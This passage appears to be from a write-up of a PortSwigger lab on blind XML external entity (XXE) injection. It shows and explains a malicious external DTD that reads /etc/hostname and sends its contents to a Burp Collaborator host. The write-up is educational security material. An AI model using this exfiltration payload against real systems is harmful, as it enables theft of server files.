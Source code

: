 Now back in the exploit server I'm going to create the malicious external DTD file: 

``` 
<!ENTITY % file SYSTEM "file:///etc/hostname"> 
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://6jqdrtguzyw7bvx184qkaxexhonfb5zu.oastify.com/?x=%file;'>"> 
%eval; 
%exfil; 
```

`<!ENTITY % file SYSTEM "file:///etc/hostname">` defines an XML entity named `file` that points to the `etc/hostname` file on the server.  `<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://6jqdrtguzyw7bvx184qkaxexhonfb5zu.oastify.com/?x=%file;'>">` Defines an XML entity named `eval`, and inside `eval` is another XML entity named `exfil` which sends and HTTP GET request to the burp collaborator address `http://6jqdrtguzyw7bvx184qkaxexhonfb5zu.oastify.com`, with the contents of the `file` entity created before appended as a query parameter. `%eval;%` references the `eval` entity which triggers the definition of the `exfil` entity, then `%exfil;` references that now defined `exfil` entity which sends an HTTP GET request exfiltrating the content of the `/etc/hostname` file as a query parameter. 

![DTD](/docs/assets/images/portswigger/blindxxe/bxxe16.png)
